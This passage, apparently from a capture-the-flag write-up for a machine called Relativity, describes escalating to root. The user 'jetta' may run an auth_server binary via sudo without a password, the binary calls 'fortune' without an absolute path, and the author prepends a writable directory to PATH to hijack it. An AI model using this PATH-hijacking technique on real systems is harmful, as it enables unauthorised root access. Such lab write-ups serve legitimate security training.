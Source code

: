     requiretty, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME
    LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY PATH", env_reset

User jetta may run the following commands on this host:
    (root) NOPASSWD: /home/jetta/auth_server/auth_server
{% endhighlight %}

The binary seems to be executing some certificates checks and output a message through `cowsay`.

We see that we can run the `auth_server` binary as `root` without providing any password:

{% highlight bash %}
sudo ./auth_server
{% endhighlight %}

Moreover:

{% highlight bash %}
[jetta@Relativity auth_server]$ strings auth_server
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
fflush
puts
putchar
printf
poll
stdout
system
__libc_start_main
GLIBC_2.2.5
l$ L
t$(L
|$0H
[+] Checking Certificates...
done
[+] Contacting server, please wait...
could not establish connection
invalid certificates
error: (12)
fortune -s | /usr/bin/cowsay
Starting Auth server..
;*3$"
{% endhighlight %}

We can see that the call for `fortune` is not absolute path, so we can change the binary by modifying the path:


We can change the path to use the "local" fortune script this way:

{% highlight bash %}
PATH=/home/jetta:$PATH ./auth_server
{% endhighlight %}
